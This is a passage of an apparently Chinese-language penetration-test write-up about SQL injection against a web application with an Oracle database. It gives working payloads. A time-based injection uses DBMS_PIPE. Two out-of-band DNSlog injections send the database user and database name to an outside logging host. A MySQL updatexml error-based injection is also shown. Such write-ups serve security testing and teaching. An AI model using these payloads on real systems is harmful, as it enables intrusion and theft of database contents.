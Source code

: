 ![image-20230614123842178](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-50610afaf28a6b452116420b90987627fe1ff4db.png)

尝试联合注入发现缺少from关键字，联想到在 oracle中使用查询语句必须跟一个表名，因此猜测是Oracle数据库

![image-20230614124421725](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-b01fcc89a9ae6b73d50f962134ca791b13453db0.png)

下面尝试两种形式证明漏洞

**延时注入**
--------

SQL语句：and DBMS\_PIPE.RECEIVE\_MESSAGE('ICQ',5)=1

延时10秒

![image-20230614124617443](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-959dc69ad5306a8387e65185b5c30096e5d285ce.png)

延时5秒

![image-20230614124731230](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-e1a837fd75057d5ff4d23bb09aa61d5643f9068d.png)

DNSlog注入
--------

由于延时注入太耗费时间，选择数据带外

![image-20230614130623660](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-658020a2a79370d3c64eafec74771ff20026199c.png)

SQL语句：查询用户名

 and (select utl\_inaddr.get\_host\_address((select user from dual)||'.dnslog地址') from dual)is not null --

![image-20230614130524387](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-9b76cc4205f0f9770b787b98e52b8c047bbedeb3.png)

SQL语句：查询库名

 and (select utl\_inaddr.get\_host\_address((select name from v$database)||'.dnslog地址') from dual)is not null --

![image-20230614131005879](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-d87e8b32982edfb073c5baf5ee799cc787fc8342.png)

![image-20230614131038272](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-9ebaf85da07863a7ae954f11fa8be94ed184d8cb.png)

0x03 两个常规注入
===========

报错注入
----

常规sql报错语句，无WAF：

 'and (updatexml(1,concat(0x7e,(select database()),0x7e),1)) -- q

![image-20230614135021781](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-a3b76dbe4040e9bcf5967329dd959406d7c21081.png)
